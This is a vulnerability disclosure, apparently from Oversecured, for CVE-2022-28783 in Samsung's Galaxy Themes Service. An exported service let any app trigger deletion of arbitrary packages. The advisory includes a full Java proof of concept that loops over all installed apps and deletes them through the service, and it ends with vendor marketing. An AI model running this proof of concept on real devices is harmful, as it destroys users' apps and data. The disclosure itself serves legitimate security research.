

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Galaxy Themes Service</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.themecenter</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.02.13</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.05.03</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>High</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-28783">CVE-2022-28783</a> (SVE-2022-0349)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$5580</td>
    </tr>
</table>

# Description

Oversecured found the following vulnerability:


The `com.samsung.android.thememanager.ThemeManagerService` service was exported and allowed any third-party apps to communicate with it. When the attacker provided the `com.samsung.android.theme.action.SIDELOAD_AOD_END` action, the app received the `extra_package` value and passed it to `PackageManager.deletePackage()`. This allowed an unprivileged attacker to delete any apps installed on the device.

**Proof of Concept**
```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    for (ApplicationInfo info : getPackageManager().getInstalledApplications(0)) {
        String pkg = info.packageName;
        if (!getPackageName().equals(pkg)) {
            deletePackage(pkg);
        }
    }
}

private void deletePackage(String pkg) {
    Bundle bundle = new Bundle();
    bundle.putString("extra_package", pkg);

    Intent i = new Intent("com.samsung.android.theme.action.SIDELOAD_AOD_END");
    i.setClassName("com.samsung.android.themecenter", "com.samsung.android.thememanager.ThemeManagerService");
    i.putExtra("extra_bundle", bundle);
    startService(i);
}
```

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.